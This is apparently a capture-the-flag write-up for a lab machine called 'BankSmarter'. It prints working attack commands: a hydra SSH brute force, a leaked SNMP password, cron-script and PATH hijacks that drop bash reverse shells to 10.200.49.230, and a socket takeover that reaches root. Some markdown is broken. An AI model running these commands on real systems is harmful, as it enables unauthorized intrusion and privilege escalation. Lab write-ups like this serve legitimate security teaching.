# BankSmarter

**Tags:** #snmp, #Credentials-Leak, #path-abuse, #cron, #history, #socket, #SUID, #path-abuse

## SNMP Credentials Leak

### Commands

```sh
hydra -L users.list -P ./psw.list 10.1.238.94 ssh -V -t 4
```

Within SNMP we discover a potential credential leak in `SNMPv2-MIB::sysContact.0` value:



At first we couldn't manage to authenticate with:`Layne.Stanley:5t6^jahTRjab'`, however, after some trial and error we manage to authenticate by removing the `'` from the password. Thus, we manage to get the credentials:

`Layne.Stanley:5t6^jahTRjab`




---

## Initial Recognition and Lateral Movement to `scott.weiland`

### Commands

```sh
mv bankSmarter_backup.sh bankSmarter_backup_bk.sh
echo -n -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/10.200.49.230/22 0>&1' > bankSmarter_backup.sh
chmod +x bankSmarter_backup # crucial otherwise the script is not triggered due to execution rights
```

After authenticating in SSH we discover we have the possibility to write inside our home folder and we also discover in our folder a script called `bankSmarter_backup.sh` is owned by the user `scott.weiland`. Considering that's a backup, we can assume it's being ran through a `cronjob`. 



To validate our assumption, we download `pspy64` and run it on the target PC, discovering every minute this script is being launched by the user ID 1002 (`scott.weiland`):



We try to move this file and insert a reverse shell named this way to trigger the command execution, obtaining a reverse shell as the user `scott.weiland`:




---

## `scott.weiland` History and the Lateral Movement to `ronnie.stone`

### Commands

```sh
socat stdio unix-connect:/opt/bank/sockets/live.sock
```

By looking at the bash history of `scott.weiland` within the `history` command we discover a list of commands executed by that user. In particular one seems to stands out:



this command attaches a unix session through the socket located a `/opt/bank/sockets/live.sock`. In fact, by replicating this command we basically enter the user session corresponding to the actual owner of the socket located at this location



After validating the socket belongs to `ronnie.stone` we proceed to execute this command, gaining a shell as `ronnie.stone`:




---

## Privilege Escalation to `root`

### Commands

```sh
find / -perm /4000 -ls 2>/dev/null
```

```sh
export PATH=.:${PATH}
```

Since within the socket we do not have a stable shell and since `CTRL+Z` redirects us to `scott.weiland` shell, we opt to gain a shell on another terminal to make the TTY fully interactive. After doing so, we discover we discover an unusual SUID by searching for binaries with SUID:




Moreover, we also notice that the script is owned by root and by the group `bankers`. We notice that `ronnie.stone`, our new owned user 



By using `strings` we discover a few commands this binary calls:



What stands out is this `python3` being called with a relative PATH. We opt to check what's being called with `strace` and even though we've a lot of verbosity in this log, we notice the following, `execve` is searching for `python3` relatively and is not finding it in the first 3 occurrences:

* `/usr/local/sbin/python3`
* `/usr/local/bin/python3`
* `/usr/sbin/python3`

And finally finds it in:
* `/usr/bin/python3`



If we're able to hijack the PATH variable, this means we're able to gain command execution when launching `/usr/local/bin/bank_backupd` because the file is owned by root and has a SUID (so when that's called it's ran as root) and it can be executed by anyone in the group `bankers` in which `ronnie.stone` belongs.



We perform the following actions, we first our current path to the env variables:


then we emulate what we've done before, but in this case we name the file `python3` like the binary is being recalled above:

```sh

---

## Assuming we're in /tmp

echo -n -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/10.200.49.230/4444 0>&1' > python3
chmod +x python3
```

>To avoid conflicts with the other cronjob we opt for changing the port of the reverse shell to 4444

Finally, we execute the SUID binary, gaining a shell as root:



---

